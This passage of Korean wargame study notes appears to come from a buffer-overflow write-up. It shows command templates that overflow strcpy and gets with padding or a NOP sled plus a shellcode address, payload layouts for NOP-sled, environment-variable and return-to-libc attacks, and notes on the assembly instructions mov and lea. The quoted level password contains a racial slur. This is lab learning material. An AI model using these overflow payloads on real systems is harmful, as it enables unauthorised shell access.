 * 작성 예시  
```
아래의 n에는 적절한 byte 수를 계산하여 넣는다. 그로인해 ret지점에 정확히 환경변수 주소가 덮이게 해야한다.
즉 n = str~ret 거리

// strcpy
./실행파일 `python –c ‘print “A”*n+”쉘코드 주소”’`

얘는 strcpy에서 argv[1]를 copy하는거니까 실행파일 먼저 실행할때 인자로 넘겨줘야하고

// gets
(python -c 'print"\x90"*n+"쉘코드 주소"'; cat) | ./실행파일

얘는 실행파일을 실행하고 입력해줘야하기 때문!!!
쉘이 안꺼지게 세미콜론으로 또 하나의 명령을 줌
```  
> 익스플로잇: 대상의 취약점으로 대상의 시스템에 침투하는 행위. 즉, 취약점을 악용하는 방법 그 자체  
ex. bof, sql injection, 설정오류 등  
> 페이로드 : 대상의 취약점으로 대상 시스템에 익스플로잇 한 뒤, 수행하는 악의적 행위. 즉, 시스템에 실행시키고자 하는 코드  
ex. 리버스쉘(윈도우 cmd로 대상 시스템에서 공격자에게 역으로 접속을 시도하는 페이로드), 바인드쉘(대상 시스템의 응답 포트에 cmd를 바인드해 공격자가 접속할 수 있도록 유도하는 페이로드)  
> 쉘코드: 공격을 수행할 때 페이로드로 사용되는 명령 집합. 쉘코드는 보통 어셈블리어로 작성하는데, 연속된 명령을 대상 시스템에서 실행한 후 명령 쉘을 얻는다.  

10. 페이로드를 실행시키니 쉘이 성공적으로 떨어진다. 그리고 my-pass 명령어를 통해 level14의 패스워드를 얻는다.  
11. 패스워드는 "what that nigga want?"  

### 다른 공격 코드 예시  
* 기본적인 BOF(nop sled 이용) : NOP(500) + shellcode(25) + NOP(511) + 0x1234567(4) + NOP(12) + RET(4)  
* 환경변수를 이용한 BOF : NOP(1036) + 0x1234567(4) + NOP(12) + RET(4)  
* RTL: NOP(1036) + 0x1234567(4) + NOP(12) + system(4) + exit(4) + /bin/sh(4)  
* ROP(Return Oriented Programming) 공격이 가능한 문제라고 한다! 나중에 한번 해보자!  
ROP은 NX bit와 ASLR(Address Space Layout Randomize) 같은 메모리 보호 기법을 우회하기 위한 공격 기법으로, RTL, RTL chaining, GOT overwrite 기법을 활용하여 취약한 프로그램 내부의 기계어 코드들을 이용해 콜스택을 제어하는 공격 기법  
[출처](https://d4m0n.tistory.com/84)

## 그 외  
### DWORD PTR  
참고: dword ptr에 의해 4바이트의 값을 읽어 들인다.  
//word ptr이면 2바이트, byte ptr이면 1바이트  
//되도록 [ ] 전에 dword ptr처럼 메모리 크기를 지정해주자  

* [] 기호  
*참고로 []는 포인터역할이다, [주소]이면, 그 주소에 있는 값을 가리키는 것*  
*nasm에서 메모리 표현방식은 [](effective address)이다*  
1) 어셈블리어에서 []는 주소를 의미, mov에서 []가 쓰이면 주소를 참조하는 것으로 쓰임  
2) [] 기호를 쓰면 내부에서 사칙연산이 가능  
ex. ```lea eax, dword ptr ss[ebp-4];``` 코드에 [] 기호가 없었다면  
```mov eax,ebp; sub eax,4;```  
두 개의 코드를 써줘야 하는 번거로움이 생긴다. 따라서 사칙연산 명령어를 쓰지 않고도 [ ] 기호를 쓰면 내부에서 사칙연산이 가능해진다.


### mov  
mov des, src : src 위치에 있는 데이터를 복사하여 dest 위치에 저장  
1) 메모리와 레지스터 사이의 데이터 이동  
2) 레지스터와 레지스터, 값을 레지스터나 메모리에 대입할 때 사용  
3) src와 dest의 크기가 같아야함  
MOV는 특정 메모리나 레지스터의 값을 옮기기만 하는 것이지
옮겨지는 값에 연산을 할 수 없다.

### lea(Load Effective Address): 유효 주소 로드  
lea dest, src : src오퍼랜드에서 지정된 주소를 dest로 로드  
1) src의 오퍼랜드는 메모리에 위치해야함.  
2) mov와 비교하여 메모리 주소 표현 및 레지스터에 대한 직접적인 연산이 가능  
```
